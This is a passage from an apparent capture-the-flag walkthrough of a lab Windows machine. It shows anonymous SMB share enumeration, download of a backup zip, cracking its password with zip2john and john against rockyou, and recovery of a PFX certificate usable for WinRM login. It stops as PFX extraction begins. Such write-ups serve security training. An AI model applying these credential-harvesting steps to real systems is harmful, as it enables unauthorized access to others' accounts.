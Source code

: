 One share called Shares took our attention. Let's enumerate it:

```shell
smbclient //10.129.141.135/Shares -N
```

Enumerating the shares, we found a file called winrm_backup.zip:

```shell
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Oct 25 11:39:15 2021
  ..                                  D        0  Mon Oct 25 11:39:15 2021
  Dev                                 D        0  Mon Oct 25 15:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 11:48:42 2021

                6367231 blocks of size 4096. 1223388 blocks available
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 15:40:06 2021
  ..                                  D        0  Mon Oct 25 15:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 11:46:42 2021

                6367231 blocks of size 4096. 1218002 blocks available
smb: \Dev\> get winrm_backup.zip
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (18.1 KiloBytes/sec) (average 18.1 KiloBytes/sec)
```

### Using zip2john to crack and open winrm_backup.zip
The .zip file is protected with a password, but we can use zip2john to crack and open it:

```shell
# Using zip2john
zip2john winrm_backup.zip > zip2john.txt

# And now use john to crack it
john zip2john.txt -wordlist:/usr/share/wordlists/rockyou.txt

# We were successful! It got cracked and we got the following results
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)

# Now unzip it
unzip winrm_backup.zip
# Enter password: supremelegacy

# After unzipping it, we got the following file
legacyy_dev_auth.pfx
```

### Extracting credentials from PFX file with pfx2john
What is the file legacyy_dev_auth.pfx we got? The PFX contains an SSL certificate in PKCS#12 format and a private key. These files can be used by WinRM to log in without a password, similar to id_rsa on SSH.
